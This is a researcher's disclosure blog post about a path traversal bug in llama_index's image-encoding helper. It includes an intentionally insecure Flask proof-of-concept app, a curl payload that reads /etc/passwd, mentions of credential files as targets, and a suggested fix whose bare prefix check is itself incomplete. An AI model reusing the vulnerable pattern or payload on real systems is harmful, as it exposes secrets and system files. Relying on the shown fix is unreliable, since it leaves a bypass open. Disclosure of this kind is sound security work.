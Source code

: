 # When Your AI Library Reads `/etc/passwd` For You

*How I stumbled into a path traversal in `run-llama/llama_index` and got assigned [`CVE-2025-6209`](https://www.cve.org/CVERecord?id=CVE-2025-6209)*

There’s a funny thing about writing AI libraries these days. Everyone’s in a rush to ship features, wire things together, slap an `encode_image` or `to_base64` somewhere and move on. And in that hurry, the oldest vulnerabilities in the book keep sneaking back in.

This one? A **classic path traversal → arbitrary file read** in [`run-llama/llama_index`](https://github.com/run-llama/llama_index). Yeah, the same kind of bug we were pwning PHP forums with in 2003.

Except now it lives inside the plumbing of an “AI infra” library.

---

## The Setup

Buried in `generic_utils.py` was this innocent line:

```python
with open(image_path, "rb") as image_file:
    return base64.b64encode(image_file.read()).decode("utf-8")
```

Looks harmless, right? Pass it an image, get a base64 string.
But here’s the catch: **`image_path` is attacker-controlled.**

No sanitization. No directory whitelisting. No “hey maybe don’t open `/etc/shadow` as if it were a PNG.” Just raw `open()` on whatever string you throw at it.

And because this gets wrapped inside `ImageDocument` and passed down into `image_documents_to_base64`, suddenly you have a cute little API endpoint that will happily read **any file on the system** for you.

---

## Proof of Concept

I spun up a Flask app to simulate what a careless integration might look like:

```python
from flask import Flask, request
import base64
from llama_index.core.schema import ImageDocument
from llama_index.core.multi_modal_llms.generic_utils import image_documents_to_base64

app = Flask(__name__)

@app.route("/upload", methods=["POST"])
def upload_image():
    image_path = request.form.get("image_path")  # Attacker-controlled input
    doc = ImageDocument(image_path=image_path)
    try:
        encoded = image_documents_to_base64([doc])
        if encoded:
            return {"encoded": encoded[0], "decoded": base64.b64decode(encoded[0]).decode("utf-8")[:500]}
        return {"error": "No content returned"}
    except Exception as e:
        return {"error": str(e)}

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Then I sent it this:

```bash
curl -X POST -F "image_path=../../../../etc/passwd" http://localhost:5000/upload
```

Boom. Base64-encoded contents of `/etc/passwd` in my terminal.
Not an image. Definitely not what the dev intended.

---

## Why This Matters

This is where it gets interesting. Most people will shrug:

> “Oh, it’s just `/etc/passwd`, no big deal.”

But here’s the reality:

* **Information Disclosure**: `/etc/passwd` isn’t the holy grail anymore, but `/etc/shadow` is. Or maybe it’s AWS creds in `~/.aws/credentials`. Or private keys lying around.
* **Privilege Escalation**: If the service runs as root (and let’s be real, a lot of quick AI servers do), then it’s game over.
* **Silent Data Leaks**: AI infra often sits inside bigger pipelines. Exfiltrating config files, API keys, or model weights becomes trivial.

This isn’t just “a bug.” It’s a door.

---

## Root Cause

The root cause is painfully simple:

1. Developer assumed input was “just an image path.”
2. No validation of path traversal (`../`) or absolute paths.
3. No restriction to a safe directory.

This isn’t new. This is **day-one AppSec**. But we keep making the same mistake because frameworks encourage “just pass a string, it’ll work.”

---

## The Fix

Lock it down:

```python
import os

def sanitize_path(image_path):
    absolute_path = os.path.abspath(image_path)
    allowed_root = "/path/to/images"
    if not absolute_path.startswith(allowed_root):
        raise ValueError("Invalid file path")
    return absolute_path
```

And maybe — just maybe — **don’t trust raw file paths from users in 2025.**

---

## Bigger Picture

This bug says more about the *state of AI dev culture* than the code itself.

* We’re gluing libraries together with zero threat modeling.
* Security reviews get skipped because “we need to ship the demo.”
* The same 90s-era bugs are resurfacing in 2025, wrapped in shiny AI wrappers.

As a hacker, it’s almost laughable. But also terrifying. Because this code runs in real production systems. Behind APIs. In companies storing sensitive data.

And attackers don’t need to invent fancy AI exploits when **path traversal still works**.

---

## Closing Thoughts

I’ve been hacking long enough to see patterns. The tools change, the hype changes, but the bugs? They’re eternal.

If you’re building with AI infra, don’t just ask “does it work?”
Ask: **what happens when someone pushes it sideways?**

Because if you don’t, someone else will.

PS: You can refer to this commit for changes pushed later on for patch.
[`Fix`](https://github.com/run-llama/llama_index/commit/cdeaab91a204d1c3527f177dac37390327aef274)

---

*Filed: [Arbitrary File Read via Path Traversal in `run-llama/llama_index`](https://huntr.com/bounties/e89d14f8-bfe8-4c9a-bb2a-656c01cc9a68) 

---
